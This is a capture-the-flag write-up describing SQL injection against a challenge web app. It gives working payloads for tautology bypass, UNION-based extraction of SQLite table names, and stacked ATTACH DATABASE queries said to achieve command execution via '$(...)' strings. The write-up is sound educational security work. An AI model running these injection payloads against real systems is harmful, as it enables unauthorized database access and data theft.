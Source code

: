 # Introduction
This challange was rather interesting, where your POST data returns data maybe there is SQLi !!

## Challange Discription

ARIA has started making simple applications to display their intelligence, but they're still in a rough state. Break in, and discover the critical information!

https://uscybercombine-s4-biocheck.chals.io/


## Step 1

When user input is taken and data is returned, maybe backend is working with a database.
This is what Post normal data request and response:

![](../assets/Biocheck_1.png)

The first thing we can check is (**'**) to see if it cause any error or a vierd response:

![](../assets/Biocheck_2.png)


It gives error So maybe we can do SQLi !!



## Step 2

Assume we have bellow syntax:

```sql
select * from data where query = 'INPUT' ;
```

So lets send this payload 
> 1' or 1=1 --

This will make query like this:

```sql
select * from data where query = '1' or 1=1 --' ;
```

![](../assets/Biocheck_3.png)

We got all data of rows in response, now it's time to extrat some data :)



## Step 3
We can continue with **sqlmap** but let's go manual 
- database is sqllite
    - got this from **sqlmap**

Let's see how many columns we have with **UNION** :
> 1' or 1=1 UNION select 1 --

We have only 1 row and that will be enough to extract data.

we can extract table name with this payload
> 1' UNION ALL SELECT tbl_name FROM sqlite_master WHERE type='table'--

![](../assets/Biocheck_4.png)



## Step 4

After 4 hours of headache got a simple command execution on os.
- first attach a new DataBase and insert data in a table ( data is command )
- Then read data from that new database and table

First step to run command:
> 1'; ATTACH DATABASE '/tmp/exploit.db' AS exploit; CREATE TABLE exploit.cmd5(cmd5 text); INSERT INTO exploit.cmd5(cmd5) VALUES('$(ls -la)'); --

![](../assets/Biocheck_5.png)


Seconnd step to see result of command:
> 1' ; ATTACH DATABASE '/tmp/exploit.db' AS exploit;   SELECT * FROM exploit.cmd5  --

![](../assets/Biocheck_6.png)


Finally we can read the flag ....

>1'; ATTACH DATABASE '/tmp/exploit.db' AS exploit; CREATE TABLE exploit.cmd27(cmd27 text); INSERT INTO exploit.cmd27(cmd27) VALUES('$(grep -r "SIVB" . )');

![](../assets/Biocheck_7.png)
